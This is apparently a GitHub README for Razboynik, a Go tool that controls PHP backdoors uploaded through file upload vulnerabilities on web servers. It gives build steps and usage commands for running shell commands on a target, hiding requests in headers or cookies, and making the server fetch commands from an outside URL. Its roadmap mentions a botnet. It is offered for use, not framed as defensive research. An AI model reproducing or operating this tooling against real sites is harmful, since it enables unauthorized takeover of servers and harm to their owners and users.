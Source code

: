 #Razboynik - разбойник
Razboynik is the FurezLegacy project on Go

##Main Goal ?
Razboynik wants to be the best reverse shell based on PHP backdoor

##FurezLegacy ?
FurezApi Framework was a little PHP website that exploit PHP backdoor.
It allow you to exploit file upload vulnerability on web server.
The main goal was pretty simple : Test every possibilities of infected files to upload, and then, if the upload is successful:

- giving you a user interface to manage datas
- allowing you to do what you want on server

Show the folder structure of the website ? Show a specific file ? Zip content ? Download content ? Upload or even delete ? If the API succeed to be upload on the server. You're the new king of this one!

##Why Razboynik ?
Where FurezApi Framework and later FurezExploit (C++ brother) were boring and long to setup and install, Razboynik learnt about those mistakes and fix it. 
Razboynik is giving you a better interface to handle the server (nothing better than shell). Easier to install, faster to use, better to customize and hot new functionnalities:
- Encoding all the request (Crypto on the way)
- Infected requests by GET, POST, Headers or Cookies
- Logs every result in file
- Better interface
- Easy to plug bundle and plugin thanks to modules
- Proxied tunnel (on the way)

##Binary
(Not available yet)

Binaries for differents platforms (Linux, Windows and soon or later Mac) will be available in the `./bin` directory. So if you don't want to build the application by yourself you can use it.

On Windows launch: `./bin/razboynik.exe`
On linux (in your terminal): (root directory) `./bin/razboynik`

##Build locally
###Requirements
These requirements are necessary only if you want to build the app:
- `Golang`

###Dependencies
These dependencies will be install:
- `eatbytes/razboy` (Business logic and core of razboynik)
- `urfave/cli` (Usefull utility to handle flag and parse command)
- `chzyer/readline` (Implementation of readline to loop on command)
- `fatih/color` (Great colors to push on terminal)
- `golang library` (fmt, strings, buffer, etc...)

###Installation
Instructions to build the app:
- `git clone https://github.com/EatBytes/razboynik.git` (or SSH if you want)
- `cd razboynik`
- `go get`
- `go build`

(Makefile on the way)

##Demo
[![asciicast](https://asciinema.org/a/92281.png)](https://asciinema.org/a/92281)

Let's suppose you find a file upload vulnerability in a website and you upload the script available in `res/backdoor` folder.
Now the url of your script could be (as example) : http://{website}/uploads/script.php

With this statement we can use razboynik as it follow :
- `./razboynik run -u http://{website}/uploads/script.php`
or (shortcut)
- `./razboynik r -u http://{website}/uploads/script.php`

If you want to change the parameter sent, add -p flag and precise it. Like : `./razboynik r -u ... -p myParameter`.
By default the parameter is "razboynik". Parameter is the name of the field or header or cookie (depends on method) sent to server. If the method is GET, razboynik will simply add at the end of the url = ?razboynik={request}.

If you want to change the method, add -m flag as : `./razboynik r -u ... -m POST`.
By default, method is set to GET. You have the choice between : GET, POST, HEADER (evil request will be set in headers), COOKIE.

For more option you can add -h flag. Or type `./razboynik help`.

##API
You will find the API of all the business logic in the appropriate repository `razboy`

###run
Run a reverse shell with specified configuration

OPTIONS: 
    - `-u, --url`: (string) Url of the target. Ex: -u http://localhost/script.php
    - `-m, --method`: (string) Method to use. Ex: -m POST (default: "GET")
    - `-p, --parameter`: (string) Parameter to use. Ex: -p test (default: "razboynik")
    - `-s, --shellmethod`: (int) Shellmethod to use. Ex: -s 0 (default: 0) [0 => system(), 1 => shell_exec()]
    - `-k, --key`: (string) Key to unlock optional small protecion. Ex: -k keytounlock (default: "FromRussiaWithLove<3")
    - `-r, --raw`: (bool) If set, send the request without base64 encoding
    - `-c, --crypt`: (Not available)

###generate
(Not available yet)

###scan
Scan a website to identify what shell method and method works on it.

OPTIONS:
    - `-u, --url`: (string) Url of the target. Ex: -u http://localhost/script.php
    - `-p, --parameter`: (string) Parameter to use. Ex: -p test (default: "razboynik")
    - `-k, --key`: (string) Key to unlock optional small protecion. Ex: -k keytounlock (default: "FromRussiaWithLove<3")

###invisible
Execute a raw command available at an url (referer). Ex: http://website/cmd.txt point to 'echo 1;' in body, then I can do : -u ... -r http://website/cmd.txt

OPTIONS:
    - `-u, --url`: (string) Url of the target. Ex: -u http://localhost/script.php
    - `-r, --referer`: (string) Url that the server will call to get the cmd to execute. Ex: -r http://website.com/cmd-i-want-to-execute.txt

###encode / decode
Encode or decode string.

Ex: encode hello => aGVsbG8=
    decode aGVsbG8= => hello

##Roadmap
###1.5.0
- Raw request
- Better error in razboy (core)
- Add more information when run fail
- Add cookie method
- Implement optional key protection
- Add base64 encoding and decoding to root
- Add invisible method

###1.6.0
- Add web server (FurezApi legacy)
- Add `./bin` folder with binaries
- More documentation
- Add asciinema video (in progress)
- Create a botnet ? Handle multiple server at the same time
- Config file
- Proxied tunnel
- Crypto
